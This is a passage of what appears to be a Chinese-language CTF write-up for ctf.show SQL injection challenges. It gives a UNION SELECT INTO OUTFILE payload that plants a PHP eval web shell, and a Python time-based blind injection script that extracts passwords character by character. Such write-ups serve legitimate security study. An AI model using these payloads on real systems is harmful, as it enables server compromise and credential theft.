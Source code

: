 ```
1' union select 1,"<?=eval($_POST[1]);?>" into outfile "/var/www/html/shell.php" --+ 
```



#### web175

```
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
      
```

检查变量 `$ret` 经过 `json_encode` 编码后的结果中是否只包含 ASCII 字符（即字符编码范围在 `\x00` 到 `\x7f` 之间）。如果不满足这个条件，就将 `$ret` 数组中的 `msg` 键的值设置为 `'查询成功'`。

也就是没有任何回显

方法一：**时间盲注**

大佬的脚本，用的二分法

```python
# @Author:Y4tacker
import requests

url = "http://7eac161c-e06e-4d48-baa5-f11edaee7d38.chall.ctf.show/api/v5.php?id=1' and "

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        payload = f'1=if(ascii(substr((select  password from ctfshow_user5 limit 24,1),{i},1))>{mid},sleep(2),0) -- -'
        try:
            r = requests.get(url + payload, timeout=0.5)
            tail = mid
        except Exception as e:
            head = mid + 1

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```
